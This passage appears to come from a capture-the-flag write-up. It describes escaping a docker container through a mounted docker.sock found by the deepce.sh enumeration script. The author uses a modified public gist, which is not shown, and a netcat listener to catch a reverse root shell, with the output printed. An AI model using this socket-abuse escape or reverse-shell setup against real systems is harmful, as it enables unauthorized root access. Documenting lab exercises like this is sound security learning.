 - Ran `deepce.sh`, found potential ways to escape the docker:

```bash
[+] Dangerous Capabilities .. Yes
Bounding set =cap_chown,cap_dac_override...
[+] Docker sock mounted ....... Yes

application@4dae106254bf:~$ find / -name docker.sock 2>/dev/null
/app/docker.sock

application@4dae106254bf:/app$ ls -la
total 8
drwxr-xr-x 1 application application 4096 Jun 24 15:56 .
drwxr-xr-x 1 root        root        4096 Dec 18 23:38 ..
srw-rw---- 1 root        app            0 Dec 18 23:38 docker.sock
```

- After some googling, I found [this script](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25) on Github, I modified it and ran these commands against the machine and got a revshell in the container with root filesystem mounted.

```bash
nc -lvnp 9002                             
listening on [any] 9002 ...
connect to [10.10.16.35] from (UNKNOWN) [10.10.11.171] 41488
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@615cfaf14665:/#
```
